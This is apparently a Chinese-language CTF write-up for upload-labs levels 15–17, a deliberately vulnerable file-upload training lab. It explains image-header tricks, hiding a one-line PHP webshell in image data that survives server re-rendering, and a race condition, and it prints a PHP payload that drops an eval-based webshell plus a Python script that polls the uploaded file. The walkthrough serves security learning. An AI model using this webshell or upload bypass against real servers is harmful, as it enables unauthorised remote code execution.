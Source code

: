 ### Pass-15

图片马（文件头修改）+文件包含

#### 绕过方法：

同pass14

‍

### Pass-16

图片马（二次渲染绕过）+文件包含

#### 绕过方法：

此关会对上传图片进行二次渲染，再保存，意思是保存的文件和上传文件有差别。

先上传一个图片看看到底改变了哪些。

​![image](assets/image-20230805161321-gognxbe.png)​

然后将一句话木马插入到没有改变的地方

​![image](assets/image-20230805161410-dt5uhl3.png)​

然后上传。

一次没成功可以多试几次。暂时没发现有什么快速找到插入点的方式，我试了6次最后成功上传。

**注意这关使用gif简单一点。png和jpg因为文件组成的原因，修改更困难，但两个都有脚本。png和jpg可参考这个博客**​[upload-labs Pass-16(二次渲染) - 夜布多 - 博客园 (cnblogs.com)](https://www.cnblogs.com/tac2664/p/14302185.html)

‍

### Pass-17

条件竞争

从源码来看，服务器先是将上传的文件保存下来，然后将文件的后缀名同白名单对比，如果是jpg、png、gif中的一种，就将文件进行重命名。如果不符合的话，unlink()函数就会删除该文件。众所周知代码执行是需要时间的，所以只要我们在第一个文件被删除前访问到它，那么就可以做一些操作。

#### 绕过方法：

首先一句话木马需要改一下：`<?php fputs(fopen('shell2.php','w'),'<?php @eval($_POST["x"])?>');?>`​

只要我们访问到第一个文件，那么它就会创建一个叫`shell2.php`​的文件，文件内容为：`<?php @eval($_POST["x"])?>`

再准备一个python脚本，用来不断访问咱们要传上去的第一个文件：

```python
import requests
# 这是文件上传上去的路径，记得修改一下
url = "http://32b24052-532c-4e68-8faa-16587b83ac1b.node4.buuoj.cn:81/upload/hack.php"
while True:
    html = requests.get(url)
    if html.status_code == 200:
        print("OK")
        break
```
